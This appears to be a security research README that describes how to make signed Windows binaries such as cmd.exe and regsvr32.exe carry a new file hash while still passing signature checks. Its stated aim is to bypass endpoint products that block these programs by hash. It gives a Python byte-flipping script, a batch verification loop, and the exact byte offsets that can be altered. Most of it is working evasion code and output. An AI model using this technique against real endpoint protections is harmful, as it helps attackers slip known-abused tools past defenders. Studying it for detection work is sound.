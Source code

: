 # Generate Windows Signed Binary With a Different Hash

The idea was to bypass endpoint solution that block known "malicious" signed application such as "regsvr32.exe". I wanted to find a way to get a valid signed file with a different hash.

# The Analysis

I may have misundertood the output after further analysis but the result remains the same.

I used `signtool verify /v /a cmd.exe`

```
C:\signcheck>signtool verify /a /v cmd.exe

Verifying: cmd.exe
File is signed in catalog: C:\windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\Microsoft-Windows-Foundation-Package~31bf3856ad364e35~amd64~~6.1.7
601.17514.cat
Hash of file (sha1): 7EB22CBAA74B208DF433C70C06A99280036A52F3

Signing Certificate Chain:
    Issued to: Microsoft Root Certificate Authority
    Issued by: Microsoft Root Certificate Authority
    Expires:   Sun May 09 19:28:13 2021
    SHA1 hash: CDD4EEAE6000AC7F40C3802C171E30148030C072
```

I thought the "Hash of file" was the SHA1 of cmd.exe based on the output (7EB22CBAA74B208DF433C70C06A99280036A52F3)

Further check revealed that the SHA1 of cmd.exe file was

```
$ sha1sum.exe cmd.exe
0f3c4ff28f354aede202d54e9d1c5529a3bf87d8 *cmd.exe
```

Interesting same file 2 different hashes.

# Generating test files

At this point I suspected that the signature may not include all sections of the file.

I wrote a simple python script to generate test files.

```
import sys

orig = list(open(sys.argv[1], "rb").read())

i = 0
while i < len(orig):
	current = list(orig)
	current[i] = chr(ord(current[i]) ^ 0xde)
	path = "%d.exe" % i
	
	output = "".join(str(e) for e in current)
	open(path, "wb").write(output)
	i += 1
	
print "done"
```

`python generate.py cmd.exe` was then executed and generated more than 300 Gb of new files.

# Final step 

We now need to validate each files we created to see if they pass the signature test.

A simple batch file can to that

```
FOR /L %%A IN (1,1,10000) DO (
	signtool verify /v /a %%A.exe
)
```

The binary 330.exe passed the signature check. in this case the file is different since the offset 330 was modified.

```
C:\signcheck>signtool verify /a /v 330.exe

Verifying: 330.exe
File is signed in catalog: C:\windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\Microsoft-Windows-Foundation-Package~31bf3856ad364e35~amd64~~6.1.7
601.17514.cat
Hash of file (sha1): 7EB22CBAA74B208DF433C70C06A99280036A52F3
```

```
$ sha1sum.exe 330.exe
4c05efb9d67291febe44f8c661db55a1ec06bc41 *330.exe

$ sha1sum cmd.exe
0f3c4ff28f354aede202d54e9d1c5529a3bf87d8 *cmd.exe
```

# cmd.exe

The following bytes can be modified without breaking the signature:
`330, 331, 408 - 412`


# regsvr32.exe

The following bytes can be modified without breaking the signature:
`320 - 323, 400 - 407`
